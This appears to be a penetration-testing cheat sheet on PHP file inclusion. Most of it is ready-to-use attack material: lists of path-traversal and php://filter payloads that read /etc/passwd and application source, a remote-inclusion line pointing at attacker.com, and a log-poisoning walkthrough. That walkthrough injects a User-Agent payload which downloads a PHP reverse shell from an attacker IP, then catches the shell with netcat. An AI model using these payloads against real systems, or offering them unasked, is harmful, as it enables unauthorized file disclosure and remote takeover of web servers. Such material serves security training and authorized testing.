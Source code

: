 ```yaml
---
title: File Inclusion
desc: 
tags: [Burp, LFI, Netcat, Reverse Shell, RFI, Web]
alts: [Directory-Traversal, Reverse-Shell]
render_with_liquid: false
---
```


## 1. Local File Inclusion (LFI)

```sh
/index.php?page=/etc/passwd
/index.php?page=../../../../etc/passwd
/index.php?page=../../../../../etc/passwd
/index.php?page=..//..//..//..//..//etc/passwd
/index.php?page=../../../../../../../../../../../../../../etc/passwd
/index.php?page=..%5c..%5c..%5c..%5cetc/passwd
/index.php?page=..%252f..%252f..%252f..%252fetc/passwd
/index.php?page=/etc/passwd%00
/index.php?page=/etc/passwd%00.inc
/index.php?page=/etc/passwd%00.php
/index.php?page=http://localhost/index
/index.php?page=http:%5c%5cindex
/index.php?page=http:%252f%252findex
/index.php?page=somedir/../../../../etc/passwd&ext=

# PHP Filter
/index.php?page=php://filter/resource=/etc/passwd
/index.php?page=php://filter/read=string.rot13/resource=index.php
/index.php?page=php://filter/convert.base64-encode/resource=index.php
/index.php?page=pHp://filter/convert.base64-encode/resource=index.php
/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
/index.php?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>

# Windows
/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

<br />

## 2. Remote File Inclusion (RFI)

```
/index.php?page=//attacker.com/exploit
```

<br />

## 3. Log Poisoning

1. **Check if You Can Access the Apache Log File**

    ```sh
    # Debian, Ubuntu Linux
    /?page=/var/log/apache/access.log
    /?page=../../../../var/log/apache/access.log
    /?page=/var/log/apache2/access.log
    /?page=../../../../var/log/apache2/access.log
    # FreeBSD Linux
    /?page=/var/log/httpd-access.log
    /?page=../../../../var/log/httpd-access.log
    # CentOS, Fedora, RedHat Linux
    /?page=/var/log/httpd/access_log
    /?page=../../../../var/log/httpd/access_log
    ```

2. **Prepare the Payload for PHP Reverse Shell**

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit the values in the payload
    $ip = '<attacker-ip>';
    $port = 4444;
    ```

3. **Open Web Server in Your Local Machine**

    By doing so, 

    ```sh
    python -m http.server 80
    ```

4. **Inject PHP Payload in the User-Agent**

    Send the GET Request with abusing the User-Agent.  
    The payload can be uploaded to the "/shell.php" of the target website.

    ```
    GET / HTTP/1.1
    ...
    User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<attacker-ip>/shell.php'));  ?>
    ```

5. **Apply the Injection**

    To do so, refresh the page "/index.php?page=../../../../var/log/apache2/access.log".

6. **Open Listener for Reverse Shell**

    In you local machine, open the listener.  
    You need to specify the port which you set the section 2.

    ```sh
    nc -lvnp 4444
    ```

7. **Gain Access to Shell**

    Access to "/shell.php" of the target website.  
    If it goes well, you can get a shell.